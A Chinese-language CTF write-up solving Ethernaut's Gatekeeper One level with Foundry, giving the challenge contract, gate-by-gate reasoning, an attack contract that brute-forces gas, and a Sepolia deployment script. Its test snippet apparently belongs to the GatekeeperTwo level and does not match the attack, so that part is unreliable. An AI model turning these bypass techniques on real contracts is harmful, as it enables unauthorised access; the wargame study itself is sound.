


# Foundry 通关 Ethernaut（12）— **Gatekeeper One**

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

通过修饰符的限制，成功调用函数更新用户

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. 一个地址类型状态变量 **entrant**，默认为 0x0
2. 函数修饰符：
   - gateOne：函数的当前调用者（msg.sender）与 原始调用者（tx.origin）不相等时执行函数
   - gateTwo：使用 `gasleft()` 函数获取到交易剩余的 gas fee 为 8191的整数倍时执行函数
   - gateThree:   输入的 _gatekey 值满足三个 require 语句时执行函数

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

## 思路

### gateOne

很经典的 `msg.sender` 与 `tx.origin` 不相等，在 **Telephone** 这一关中给出过解法，构建一个攻击合约调用即可

### gateTwo

这个比较复杂，涉及到剩余的 gas 问题，必须是 8191的整数呗，所以整个 gas 应该是 8191 * n + x ，这个x是总共的消耗的 gas，这里关于他的解法有点疑惑

```solidity
      for (uint256 i = 0; i < 8191; i++) {
            (bool result, ) = address(gatekeeperOne).call{gas: i + 8191 * 3}(
                abi.encodeWithSignature("enter(bytes8)", _gateKey)
            );
            if (result) {
                break;
            }
        }
```

这个循环没有理清楚

### gateThree

这里要做一个较为复杂的运算题，涉及到 显示转换以及隐式转换的位运算，截取哪里

**前提：**

byte8 = 8 字节，16字符，64 bit

地址类型 20字节，40字符，160 bit

假设 _gateKey = 0x0123456789abcdef

假设 tx.origin = 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4

- require1

  ```solidity
  (uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))
  ```

  1. 条件1 ：uint32(uint64(_gateKey) = 0x89abcdef
  2. 条件2 ：uint16(uint64(_gateKey)) = 0x cdef = 0x0000cdef （隐式转换，两个数要比较，无符号整型可以转换成跟它大小相等或更大的字节类型） ****

  结论：_gateKey = 0x01234567**0000**cdef (5,6字节为0)

- require2

  ```solidity
  uint32(uint64(_gateKey)) != uint64(_gateKey)
  ```

  1. 条件1 ：uint32(uint64(_gateKey) = 0x0000cdef = 0x000000000000cdef
  2. 条件2 ：uint64(_gateKey) = 0x01234567**0000**cdef

  结论: 最后8位一定相等，则 _gateKey 前8位有一个不为0即可

- require3

  ```solidity
  (uint32(uint64(_gateKey)) == uint16(uint160(tx.origin))
  ```

  1. 条件1 ：uint32(uint64(_gateKey) = 0x0000cdef
  2. 条件2 ：uint16(uint160(tx.origin)) = 0xddC4 = 0x0000ddC4

  结论:  _gateKey 最后4位和 tx.origin 相等

总结论：_gateKey 8字节数， 前4字节至少有1位不为0，5,6字节为0，最后2字节和 tx.origin 相等，最后可以构造出这样的数字：**0x111111110000????**

(tx.origin 可以由攻击者获取，最后四位能拿到)

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.0;
   
   import {Test, console} from "forge-std/Test.sol";
   import {GatekeeperTwo,Attack} from "../src/GatekeeperTwo.sol";
   
   contract GatekeeperTwoTest is Test {
       GatekeeperTwo public gatekeeper;
       Attack public attackContract;
       address  public attacker = address(0x1234);
   
       function setUp() external {
           gatekeeper = new GatekeeperTwo();
           console.log("before",gatekeeper.entrant());
           // 切换到攻击者部署
           vm.prank(attacker);
           attackContract = new Attack(address(gatekeeper));
           // 部署后，构造函数中的调用完成则entrant改变
           console.log("after",gatekeeper.entrant());
   
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/GatekeeperTwo.t.sol -vvvv
   ```



我们可以看到，部署攻击合约后，用户改变

### 链上交互

1. 攻击合约

   ```solidity
   contract Attack {
       GatekeeperOne public gatekeeperOne;
       
       // 最后四位根据调用者的地址来
       bytes8 public _gateKey = 0x111111110000ddC4;
   
       constructor(address _address) {
           gatekeeperOne = GatekeeperOne(_address);
       }
   
       function attack() public {
           for (uint256 i = 0; i < 8191; i++) {
               (bool result, ) = address(gatekeeperOne).call{gas: i + 8191 * 3}(
                   abi.encodeWithSignature("enter(bytes8)", _gateKey)
               );
               if (result) {
                   break;
               }
           }
       }
   }
   ```

   部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {GatekeeperOne,Attack} from "../src/GatekeeperOne.sol";
   
   contract AttackScript is Script {
       GatekeeperOne public gatekeeperOne;
       Attack public attack;
   
       function setUp() public {
           gatekeeperOne = GatekeeperOne(关卡实例合约地址);
       }
   
       function run() public {
           vm.startBroadcast();
           attack = new Attack(关卡实例合约地址);
           console.log("before",gatekeeperOne.entrant());
           attack.attack();
           console.log("after",gatekeeperOne.entrant());
           vm.stopBroadcast();
       }
   }
   ```

2. 终端部署

   ```bash
   forge script script/GatekeeperOne.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --account [AccountName] interactive
   ```

   

可以看到，攻击前后，entrant 成功改变


